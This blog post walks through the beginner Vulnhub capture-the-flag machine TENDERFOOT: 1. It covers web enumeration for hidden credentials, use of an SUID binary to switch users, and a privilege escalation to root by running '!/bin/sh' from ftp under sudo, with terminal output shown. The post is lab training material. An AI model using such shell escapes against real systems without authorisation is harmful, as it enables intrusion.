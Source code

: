 ```yaml
---
layout: post
title:  "Vulnhub - TENDERFOOT: 1"
date:   2020-10-26 19:00:00 +1100
category: hacking
---
```


## Introduction
*A very Easy Box for beginners, I recommend this box if you are new here. Your task is to grab all the 3 flags (user1.txt, user2.txt, proof.txt).*

This is [TENDERFOOT: 1](https://www.vulnhub.com/entry/tenderfoot-1,581/) from vulnhub. After banging my head on a few others, I thought I'd run through an easy box so I could feel like I actually have some idea what I'm doing :)

## Ports
This box has:

1. SSH on port 22, and
2. HTTP on port 80.

## HTTP
The frontpage of the website is the Apache default page, with a modification consisting of some hints about searching for hidden directories. The page source of /robots.txt points to a directory called */hint*. The index page there contains a base32 encoded comment in the page source exhorting us to try harder.

This is all about enumeration - I'll cut to the chase:

*/entry.js* contains our SSH username - **monica**  
*/fotocd/* contains some Brainfuck code that decodes to a message about SSH and a base64 encoded password - **$99990$**

## On the box
We're in as *monica*. Again, enumeration is required but ultimately we use an SUID binary that switches us to user *chandler*. No, literally that's what it does.

{% highlight shell %}
monica@TenderFoot:/opt/exec$ ls -lash
total 20K
4.0K drwxr-xr-x 2 root root 4.0K Oct  4 18:10 .
4.0K drwxr-xr-x 3 root root 4.0K Oct  4 18:03 ..
 12K -rwsr-xr-x 1 root root 8.6K Oct  4 18:09 chandler
monica@TenderFoot:/opt/exec$ ./chandler 
chandler@TenderFoot:/opt/exec$
{% endhighlight %}

Once we're *chandler* we can find another note with some base64 encoded text that translates to *passwd:Y0uCr4ckM3*. This is the SSH/sudo password for *chandler*. Interestingly we can't run *sudo -l* from our session that we got with the SUID binary, but we can *exit* then *su chandler* and then it works. Anyway *chandler* can run *ftp* as root:

{% highlight shell %}
chandler@TenderFoot:~$ sudo -u root /usr/bin/ftp
ftp> !/bin/sh
# cd /root
# ls
last_note.txt  proof.txt
# cat last_note.txt
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

Well! congrats! for root this box, this is my first box very easy and basic.

I make this box for begginers, so that they have an basic idea what steps we have
to do to root box. 

Hope you like this box and learn something new. If you like please share your feedback.

See you in next box! and may be it will not that much EASY! :)

G00D LUCK!

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

# cat proof.txt

ASCII Art removed


Congratulations! you found last flag of tenderfoot :)
{% endhighlight %}

So I'm at least at beginner level :)

